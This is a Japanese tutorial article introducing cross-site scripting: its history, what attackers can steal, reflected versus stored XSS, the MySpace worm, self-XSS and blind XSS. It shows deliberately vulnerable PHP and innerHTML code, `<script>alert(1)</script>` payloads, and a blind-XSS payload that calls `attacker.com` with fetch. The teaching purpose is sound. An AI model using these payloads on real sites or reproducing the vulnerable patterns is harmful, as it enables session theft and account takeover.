


# XSSから始めるフロントエンドのセキュリティ

最初の序文で、フロントエンドのセキュリティはXSSだけでなく、他にも多くの興味深いものがあると述べました。しかし、実際にはXSS自体も非常に興味深く、多くの人が「フロントエンドのセキュリティ」と認識しているものです。そのため、やはりXSSから話を始めるのが慣例となっています。XSSに関する記事はすでにたくさんありますが、XSS自体は30日間の鉄人レースのテーマになるほど奥深いものです。したがって、私の記事から、以前は見過ごしていた何かを学べるかもしれません。

この記事から、最初の章「XSSから始めるフロントエンドセキュリティ」に正式に入りましょう。

## XSSの起源

マイクロソフトのMSDNブログは2009年に「[Happy 10th birthday Cross-Site Scripting!](https://web.archive.org/web/20100723152801/http://blogs.msdn.com/b/dross/archive/2009/12/15/happy-10th-birthday-cross-site-scripting.aspx)」という記事を公開しました。これから、XSSの誕生は1999年頃、つまり前世紀のことだとわかります。



記事の最後には次のような一節があり、10年後にはXSSの「死」を祝えることを願っています。

> Let’s hope that ten years from now we’ll be celebrating the death, not the birth, of Cross-Site Scripting!

しかし、ご存知のように、20年経った今でもXSSは非常に人気のある脆弱性です。無名の小規模な企業のウェブサイトから、FacebookやGoogleのような誰もが知っている巨大企業に至るまで、時折XSSの脆弱性が出現しています。このことから、この攻撃を防ぐのはそれほど簡単ではないことがわかります。

次に、XSSとは何かを見ていきましょう。

## XSSとは何か？何ができるのか？

XSSの正式名称はCross-site scriptingです。CSSと呼ばれないのは、それがすでにCascading Style Sheetsの略称として使われているからです。そのため、XSSと名付けられました。

その上、現在の視点から見るとこの名称は実際にはあまり正確ではありません。なぜなら、多くのXSSは単に「Cross-site」ではないからです。これについては、後でsiteとoriginの違いについて説明する際に触れます。これはフロントエンドセキュリティにおいて非常に重要な知識です。

簡単に言うと、XSSは攻撃者が他人のウェブサイト上でJavaScriptコードを実行できることを意味します。

たとえば、あるウェブサイトが次のように書かれているとします。

```php
<?php
 echo "Hello, " . $_GET['name'];
?>
```

`index.php?name=huli`を閲覧すると、ページには「Hello, huli」と表示され、非常に正常に見えます。

しかし、`index.php?name=<script>alert(1)</script>`を閲覧するとどうなるでしょうか？出力内容は次のようになります。

```html
Hello, <script>alert(1)</script>
```

`<script>`内のコンテンツはJavaScriptコードとして実行され、画面にアラートダイアログが表示されます。これは、他人のウェブサイト内でJavaScriptコードを実行できることを意味します。

ほとんどのXSSの例では、コードを実行できることを証明するために`alert(1)`を実行しますが、XSSの用途がこれだけだとは思わないでください。これは単に実証と理解を容易にするためのものです。

XSSを成立すると、他人のウェブサイト上でコードを実行できることになるため、多くのことができます。たとえば、`localStorage`内のすべてのものを盗むことができます。これには認証用のトークンが含まれている可能性があり、トークンを盗むと、他人のIDでウェブサイトにログインできます。

これが、認証用のトークンを`localStorage`ではなくCookieに保存すべきだと主張する人がいる理由です。`localStorage`は盗まれる可能性がありますが、Cookieに`HttpOnly`フラグが付いている場合、完全にアクセスできないため、盗まれることはありません。

ウェブサイトがたまたま`HttpOnly`フラグを使用していない場合、`document.cookie`または新しい`cookieStore` APIを使用して、そのウェブサイトのCookieを取得できます。本当に盗めなくても、`fetch()`を使用してAPIを直接呼び出すことができ、ウェブサイトでどのような機能が操作できるかを確認できます。

たとえば、YouTubeにXSSの脆弱性があるとします。攻撃者はこの脆弱性を利用して、動画を追加したり、削除したり、視聴履歴やバックエンドデータを盗んだりすることができます。基本的に、通常の操作でできることはすべて、攻撃者も行うことができます。

多くのウェブサイトでパスワードを変更する際に、現在のパスワードを再度入力する必要があるのはなぜか考えたことがありますか？すでにログインしているのに、なぜもう一度入力する必要があるのでしょうか？パスワードを変更する際に自分のパスワードがわからないということでしょうか？

あなたは間違いなく自分のパスワードを知っていますが、攻撃者は知りません。

パスワード変更機能を例にとると、バックエンドは`/updatePassword`というAPIを提供している可能性があります。これには`currentPassword`と`newPassword`という2つのパラメータが必要で、認証に成功するとパスワードを変更できます。

攻撃者がXSSの脆弱性を見つけて悪用したとしても、あなたの現在のパスワードを知らないため、あなたのパスワードを変更することはできません。

逆に、パスワードを変更する際に`currentPassword`が必要ない場合、攻撃者はXSSを利用してあなたのパスワードを直接変更し、あなたのアカウント全体を乗っ取ることができます。XSSを介して取得した認証トークンには時間制限があり、期限切れになりますが、攻撃者があなたのパスワードを直接変更すると、あなたのアカウントとパスワードを使用して正々堂々とログインできます。

そのため、多くの機密性の高い操作では、パスワードを再度入力するか、さらには2番目のパスワードが必要になります。その目的の1つは、このような状況を防ぐことです。

## XSSの発生源

XSSの問題が発生する理由は、ユーザーの入力をページに直接表示することで、ユーザーが悪意のあるペイロードを入力してJavaScriptコードを埋め込むことができるためです。

XSSには、Reflected、Persistent、DOM-basedなどのいくつかの分類があると聞いたことがあるかもしれません。しかし、これらの分類方法は20年以上前のものであり、今日の状況にはあまり適していないと思います。したがって、XSSを2つの観点から見ることができると考えています。

### 1. コンテンツはどのようにしてページに配置されるのか

たとえば、先ほど述べたPHPの例では、攻撃者のコンテンツはバックエンドで直接出力されます。したがって、ブラウザがHTMLを受信すると、その中にはすでにXSSのペイロードが含まれています。

別の例を挙げましょう。以下はHTMLファイルです。

```html
<div>
  Hello, <span id="name"></span>
</div>
<script>
  const qs = new URLSearchParams(window.location.search)
  const name = qs.get('name')
  document.querySelector('#name').innerHTML = name
</script>
```

同様に、`index.html?name=<script>alert(1)</script>`という方法で、任意のコンテンツを挿入できます。しかし、今回はフロントエンドからコンテンツを出力し、`innerHTML`を使用してペイロードをページに追加します。

これに何の違いがあるのでしょうか？

違いは、上記の例では実際にはアラートが表示されないことです。なぜなら、`innerHTML`を使用する場合、挿入された`<script>`は効果がないため、攻撃者はコードを実行するためにXSSペイロードを調整する必要があります。

### 2. ペイロードは保存されているか

先ほど挙げた例はすべて、クエリストリングのコンテンツをページに直接表示するため、攻撃ペイロードはどこにも保存されていません。

したがって、攻撃する場合、XSSペイロードを含むこのリンクをターゲットにクリックさせることにより攻撃する必要があります。もちろん、他の方法を使用したり、他の手法と組み合わせたりして、このハードルを下げることもできます。たとえば、短いURLを使用して相手に異常を気付かせないようにするなどです。

このような状況では、基本的にあなたの攻撃対象はこの1人です。

しかし、別の状況ではもっと簡単です。たとえば、掲示板を考えてみましょう。コメントにHTMLコードを挿入でき、フィルタリングが行われていないとします。その場合、`<script>`タグを含むコンテンツを残すことができます。そうすれば、この掲示板を閲覧するすべての人が攻撃を受け、攻撃対象はすべてのユーザーとなり、影響範囲はさらに大きくなります。

考えてみてください。Facebookの投稿にXSSの脆弱性があるとすると、投稿を見たすべての人が攻撃され、この攻撃をワーム化することもできます。つまり、ワームのように自己複製し、XSSを利用して被害者の代わりに投稿することで、より多くの人が攻撃を受けることになります。

2008年のOWASPの論文「[Building and Stopping Next Generation XSS Worms](https://owasp.org/www-pdf-archive/OWASP-AppSecEU08-Dabirsiaghi.pdf)」では、いくつかのワームXSSの事例が紹介されています。

最も有名な実際の事例は、2005年の有名なソーシャルネットワーキングサイトMySpaceです。Samy Kamkarという19歳の少年がプロファイルページのXSS脆弱性を見つけ、脆弱性を利用して被害者を友達として追加し、被害者のプロファイルにもXSSペイロードを埋め込みました。その結果、18時間以内に100万人以上のユーザーが感染し、MySpaceはこれらの感染したプロファイルを削除するために一時的にウェブサイトを閉鎖しました。

この事例から、ワームXSSの影響力がわかります。

XSSを「ペイロードの発生源」で分類する以外にも、XSSを分類する他の方法があります。以下では、あまり一般的ではありませんが、知っておくとよい2つの特殊なXSSの分類を追加で紹介します。

### Self-XSS

Self-XSSには実際には2つの解釈があります。1つ目は「自分自身を攻撃する」ことです。たとえば、ウェブページの開発者ツールを開き、自分でJavaScriptコードを貼り付けるのは、一種のSelf-XSSです。一部のウェブサイトでは、これを行わないように特に警告しています。たとえば、Facebookです。



2つ目の解釈は「自分自身しか攻撃できないXSS」であり、通常はSelf-XSSとも呼ばれます。

これまで述べてきたXSSはすべて他人を攻撃するためのものでした。なぜなら、他人があなたのペイロードを見ることができるからです。しかし、時には自分自身しか見ることができません。

例を挙げましょう。電話番号のフィールドにXSSの脆弱性があるとします。しかし、問題は電話番号が個人情報であるため、自分の設定ページでしか見ることができず、他人は見ることができません。このような状況はSelf-XSSであり、自分の設定ページを開いたときにしか`alert()`のポップアップウィンドウが表示されません。

あまり役に立たないように見えますが、他の脆弱性と組み合わせると、他人が見ることができるようになる可能性があります。

## Blind XSS

Blind XSSとは、「XSSが見えない場所で、わからない時点で実行される」ことを意味します。

例を挙げましょう。あるeコマースプラットフォームがあり、テストした結果、すべてのフィールドに問題はなく、XSSの脆弱性も見つからなかったとします。しかし、実際にはeコマース自体には内部バックエンドがあり、すべての注文データを見ることができます。そして、このバックエンドには脆弱性があり、名前のエンコードを忘れていたため、名前フィールドを使用してXSSを実行できます。

このような状況では、通常、テスト時にはわかりません。なぜなら、バックエンドへのアクセス権がなく、バックエンドの存在すら知らないからです。このような状況をテストしたい場合は、XSSペイロードのコンテンツを`alert()`から、`fetch('https://attacker.com/xss')`のようなパケットを送信するペイロードに変更する必要があります。そうすれば、XSSが見えない場所でトリガーされたときに、攻撃者のサーバーから観察できます。

[XSS Hunter](https://github.com/mandatoryprogrammer/xsshunter-express)のような既存のサービスの中には、XSSがトリガーされたかどうかをより簡単に観察できるプラットフォームを提供しているものもあります。トリガーされた場合、トリガーされたURLや画面上の他のコンテンツなどが返されます。

実際の事例について言えば、rioncool22は2020年にShopifyに脆弱性を報告しました：[Blind Stored XSS Via Staff Name](https://hackerone.com/reports/948929)。彼はShopifyのマーチャントバックエンドにスタッフを追加し、名前フィールドにXSSペイロードを挿入しました。Shopifyのマーチャントバックエンドではトリガーされませんでしたが、Shopify独自の内部バックエンドではトリガーされ、最終的に$3,000の賞金を獲得しました。

## まとめ

この記事はXSSの基本的な紹介であり、主にXSSが引き起こす可能性のある影響と原因に焦点を当て、ついでにself-XSSとblind XSSという2つの分類も紹介しました。

これはXSSのほんの始まりにすぎません。次の記事では、さらに深く掘り下げて、XSSのさまざまな側面を見ていきます。

次の記事に進む前に、`innerHTML = data`というインジェクションポイントを見つけたとすると、XSSをトリガーするためにどのようなペイロードを使用するかを考えてみてください。
